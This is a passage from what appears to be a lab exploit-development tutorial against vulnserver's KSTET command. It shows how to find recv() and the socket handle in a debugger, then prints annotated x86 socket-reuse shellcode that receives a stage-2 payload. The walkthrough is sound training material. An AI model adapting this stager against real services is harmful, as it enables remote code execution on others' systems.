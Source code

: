 Easy\! The parameters are really simple:

1. `SOCKET s` is the socket handle.

2. `char *buf` is a pointer on where the received data will be stored.

3. `int len` is the total amount of data expected.

4. `int flags` modifies the behavior of the `recv()` call. In our case,
    it can be zero.

But first, we need to know 2 things:

1. The address of the `recv()` call in the system.

2. The value of the socket handle.

To do that, we can use the debugger again, by right-clicking on the
`CPU` window, selecting `Search for → All intermodular calls`, looking
for the call to `WS2_32.recv` and setting a breakpoint on it:

<div class="imgblock">

![recv() call location](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331153/blog/vulnserver-kstet/recv1_dfbgnj.gif)

</div>

Now create a new connection:

<div class="imgblock">

![recv() call](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331152/blog/vulnserver-kstet/recv2_jdwr9q.gif)

</div>

Wonderful\! We can see the parameters of the `recv()` call on the stack
window (bottom right) from where we can get the value of the socket
handle (`144`). We also got the address of the `recv()` function at
`0040252C`.

With all the needed values, it’s time to write some Assembler\! Remember
that we need to avoid null bytes, and we have to push the parameters in
reverse order:

``` x86asm
sub esp,0x64            ; Move ESP pointer above our initial buffer to avoid
                        ; overwriting our shellcode
xor ebx,ebx             ; Zero out EBX
push ebx                ; Push 'flags' parameter = 0
add bh,0x4              ; Make EBX = 00000400 = 1024 bytes
push ebx                ; Push `len` parameter = 1024 bytes
mov ebx,esp             ; Move the current pointer of ESP into EBX
add ebx,0x64            ; Point EBX the original ESP to make it the pointer on
                        ; where our stage-2 payload will be received
push ebx                ; Push `*buf` parameter = Pointer to ESP+0x64
xor ebx,ebx             ; Zero out EBX again
add ebx,0x144           ; Make EBX = 144 that is the value of socket handle
push ebx                ; Push `s` parameter = 144
mov eax,0x40252C90      ; We need to make EAX = 0040252C but we can't inject
                        ; null bytes. So 40252C90 is shift-left padded with 90
shr eax,0x8             ; Remove the '90' byte of EAX by shifting right.
                        ; This makes EAX = 0040252C
call eax                ; Call recv()
```
